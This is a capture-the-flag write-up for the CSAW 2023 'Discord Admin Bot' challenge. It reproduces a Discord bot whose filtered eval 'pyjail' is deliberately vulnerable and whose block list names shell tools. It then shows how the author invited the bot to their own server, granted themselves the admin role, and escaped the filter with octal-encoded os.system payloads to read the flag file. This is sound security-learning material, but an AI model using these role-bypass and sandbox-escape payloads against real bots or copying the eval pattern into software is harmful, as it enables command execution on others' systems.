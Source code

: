 # Discord Admin Bot

### Description

>Join discord and get the flag.
>discord.gg/csaw23 [repeated 9 times]

Provided file `bot_send.py` is as follows
```python
#############################################
# Author: Krishnan Navadia
# This is main working file for this chal
#############################################

import discord
from discord.ext import commands, tasks
import subprocess

from settings import ADMIN_ROLE
import os
from dotenv import load_dotenv
from time import time

load_dotenv()

TOKEN = os.getenv("TOKEN")

intents = discord.Intents.default()
intents.messages = True
bot = commands.Bot(command_prefix="!", intents=intents)

bot.remove_command('help')

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

COOLDOWN = []

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"


@bot.event
async def on_ready():
    print(f'{bot.user} successfully logged in!')

@bot.command(name="flag", pass_context=True)
async def flag(ctx):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)

    if admin_flag:
        cmds = "Here are some functionalities of the bot\n\n`!add <number1> + <number2>`\n`!sub <number1> - <number2>`"
        await ctx.send(cmds)
    else:
        message = "Only 'admin' can see the flag.😇"
        await ctx.send(message)

@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")


@bot.command(name="help", pass_context=True)
async def help(ctx, *args):
    await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")


@bot.event
async def on_command_error(ctx, error):
    if isinstance(error, commands.CommandNotFound):
        await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")
    else:
        print(f'Error: {error}')


bot.run(TOKEN)
```

### Solution

Having no experience with Discord bots, I thought this would be an interesting opportunity to learn something new, and I was right! Examining the code above, I could see the bot appeared to some commands !flag, !help, !add, and !sub, but all the commands except !help have their interesting parts guarded by an admin role check.

Right away we can see that there is some kind of input sanitization going on with a list of disallowed strings.

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]
```

The most interesting part of the code is the `pyjail` function, which is called by the !add and !sub commands. It opens a subprocess to execute the console command `python -c print(eval({text}))`, where `text` contains the arguments from the !add or !sub and returns the output. We can see from the 3rd line that the developer is worried about preventing the user issuing shell commands, and with good reason, This is clearly opens up a command injection attack if we can get around the admin checks and input sanitization.

```python
def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```

Examining the !add command closely, we can see that it checks if the user issuing the command has the 'ADMIN_ROLE', which is defined from another file, only then does it call pyjail with our input arguments.

```python
@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

```

I couldn't see any way to bypass or overwrite the role check, and it seemed obvious there was no way to obtain this role on the CSAW Discord server. That seemed to leave only one possibility. Could I get the bot on a server I control? Would it be the same bot with access to the flag? I realized I needed to do some research to confirm my ideas, so I started googling for past CTF writeups involving Discord bots. I quickly stumbled on [this writeup](https://ctftime.org/writeup/33674), which indeed showed how to invite a public bot to your own server using an invite link. Following the steps in that writeup, I created the invite link below, which I pasted in my browser.

`https://discord.com/oauth2/authorize?client_id=1152454751879962755&permissions=8&scope=bot`

It worked! The bot was in my server!

![](./images/discord_join.png)

Based on the helpful message, I surmised that `ADMIN_ROLE` was simply `admin` and gave myself this role. Now I had access to the commands.

Attempting the obvious, issuing commands like `!add import('os').system('whoami')` were filtered by the input sanitization list and bot responded with `No shells are allowed`.

Some googling later, I found [this page on bypassing pyjails](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), the section on [eval-ing Python code](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#eval-ing-python-code) was most helpful. The first thin I tried that worked was the octal encoding of `__import__('os').system('ls')`

`!add \137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51`

Progress! Now changing the Python command to `__import__('os').system('cat flag.txt')` and encoding in octal I can issue

`!add \137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\143\141\164\40\146\154\141\147\56\164\170\164\47\51` 

Which gives the flag: `csawctf{Y0u_4r3_th3_fl4g_t0_my_pyj4il_ch4ll3ng3}`
